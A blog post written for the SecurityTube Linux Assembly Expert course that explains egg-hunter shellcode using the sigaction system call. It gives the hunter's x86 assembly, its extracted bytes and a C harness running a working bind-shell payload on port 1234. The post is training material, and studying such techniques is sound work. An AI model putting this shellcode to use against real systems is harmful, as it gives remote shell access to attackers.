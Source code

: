 ```yaml
---
title: "SLAE Assignment 3"
date: 2018-02-07
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[GitHub code repo](https://github.com/wsummerhill/SLAE)

This assignment requires us to look into the concept of “egg hunters” when it comes to buffer overflows and reverse engineering. 

Egg hunting is used in buffer overflows when there is a limited buffer space for executing shellcode at the end of the buffer which would normally prevent the use of a payload. The egg hunter is used to search through the entire range of memory in the heap or stack for our shellcode and redirect execution to it.

There is a well known paper on egg hunting by Skape which can be found here 

The egg is going to be 8 bytes in size - 4 byte egg repeated twice - converted to hex. 

When the program finds the tag it will redirect execution to where our shellcode is in memory.

The Sigaction system call allows multiple addresses to be validated at a single time by taking advantage of the kernel’s verify_area routine which is used, for instance, on structures that have been passed in from user-mod eto a system call.

It will be used to allow for validating of user-mode addresses and has the following format:
```bash
int sigaction(int signum, const struct sigaction *act, struct
sigaction *oldact)
```
Where
- gnum = EBX
- t = ECX
- dact = EDX

The system call for sigaction is 67 decimal (0x43 hex) which we’ll use in EAX.
Now onto the egg hunter code in Assembly.


```cpp
;Author: Will Summerhill
;Egg hunter code 
global _start

section .text
_start:

entry:
  or cx, 0xfff

next:
  inc ecx              ;page counter
  push byte +0x43      ;sigaction system call
  pop eax              ;store sigaction syscall into EAX
  int 0x80             ;execute sigaction
  cmp al, 0xf2         ;check if there was a segFault (if AL = 0xf2)
  jz entry             ;jump if zero flag (ZF) set from above cmp
  mov eax, 0x99999999  ;store egg into EAX
  mov edi, ecx         ;move into EDI to validate address

  ;EAX is egg, EDI is next address to validate
  scasd                ;scan string by comparing EAX and EDI, increment EDI by 4 
  jnz next             ;jump if zero flag (ZF) is not set from above compare
  
  scasd                ;will execute when first bytes of egg matched, compare the second half
  jnz next             ;match failed - try again from next address
  jmp edi              ;egg found - jump to payload in EDI
```

We can test this by determining the shellcode of the above program with the command objdump -d A3 -M intel and then copying it into our C program for execution with the normal //bin/sh bind shellcode. 

```cpp
#include<stdio.h>
#include<string.h>


//extracted egg hunter shellcode
unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f"         //or     cx,0xfff
"\x41"                     //inc    ecx
"\x6a\x43"                  //push   0x43
"\x58"                     //pop    eax
"\xcd\x80"                  //int    0x80
"\x3c\xf2"                  //cmp    al,0xf2
"\x74\xf1"                  //je     80480a0 <_start>
"\xb8\x99\x99\x99\x99"          //mov    eax,0x99999999 --> EGG
"\x89\xcf"                  //mov    edi,ecx
"\xaf"                     //scas   eax,DWORD PTR es:[edi]
"\x75\xec"                  //jne    80480a5 <next>
"\xaf"                     //scas   eax,DWORD PTR es:[edi]
"\x75\xe9"                  //jne    80480a5 <next>
"\xff\xe7";       //jmp    edi


//add egg twice to beginning of bind shellcode below
//listens on localhost port 1234

unsigned char code[] = \
"\x99\x99\x99\x99\x99\x99\x99\x99\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length with 8 byte egg:  %d\n", strlen(code));
  printf("Egg hunter length: %d bytes\n", strlen(egghunter));
  int (*ret)() = (int(*)())egghunter; //return egghunter
  ret();
}
```

Now compiling the shellcode and executing we get a bind shell listening on port 1234 while using the egg hunter as the first staged payload which will redirect program execution to the normal bind shell that is prepended with the egg.  

![EmbeddedImage](https://user-images.githubusercontent.com/35749735/206793505-b8a2f3ef-eb5b-4de8-b413-5185b76870c2.png)

![EmbeddedImage1](https://user-images.githubusercontent.com/35749735/206793522-3e98469d-90c3-4006-896d-7c0872b5266d.png)

----------

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%203).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
